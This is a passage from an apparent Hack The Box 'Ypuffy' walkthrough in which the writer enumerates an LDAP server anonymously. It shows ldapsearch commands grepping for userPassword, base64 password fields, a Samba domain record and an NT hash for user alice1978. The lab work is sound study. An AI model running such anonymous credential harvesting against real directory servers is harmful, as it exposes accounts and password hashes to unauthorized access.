 ```bash
cn: alice1978
userPassword:: e2NyeXB0fSo=
gidNumber: 5000

# ypuffy, hackthebox.htb
dn: sambadomainname=ypuffy,dc=hackthebox,dc=htb
sambaDomainName: YPUFFY
sambaSID: S-1-5-21-3933741069-3307154301-3557023464
sambaAlgorithmicRidBase: 1000
objectclass: sambaDomain
sambaNextUserRid: 1000
sambaMinPwdLength: 5
sambaPwdHistoryLength: 0
sambaLogonToChgPwd: 0
sambaMaxPwdAge: -1
sambaMinPwdAge: 0
sambaLockoutDuration: 30
sambaLockoutObservationWindow: 30
sambaLockoutThreshold: 0
sambaForceLogoff: -1
sambaRefuseMachinePwdChange: 0
sambaNextRid: 1001

# search result
search: 2
result: 0 Success

# numResponses: 9
# numEntries: 8
```

I see a lot of users and passwords, also a NThash of `alice1978` which is `0B186E661BBDBDCF6047784DE8B9FD8B`.

Let's take out all the passwords:
```bash
$ ldapsearch -x -h `IP` -D '' -w '' -b "DC=hackthebox,DC=htb" | grep -i -A2 -B2 "userpas"
objectClass: posixAccount
objectClass: top
userPassword:: e0JTREFVVEh9Ym9iODc5MQ==
uidNumber: 5001
gidNumber: 5001
--
objectClass: top
objectClass: sambaSamAccount
userPassword:: e0JTREFVVEh9YWxpY2UxOTc4
uidNumber: 5000
gidNumber: 5000
--
objectClass: top
cn: bob8791
userPassword:: e2NyeXB0fSo=
gidNumber: 5001

--
objectClass: top
cn: alice1978
userPassword:: e2NyeXB0fSo=
gidNumber: 5000
```
These passwords seem to be base64 encoded. When I decode them, they just come like in the format: `{BSDAUTH}username` eg. `{BSDAUTH}alice1978`.
That isn't userful to me.
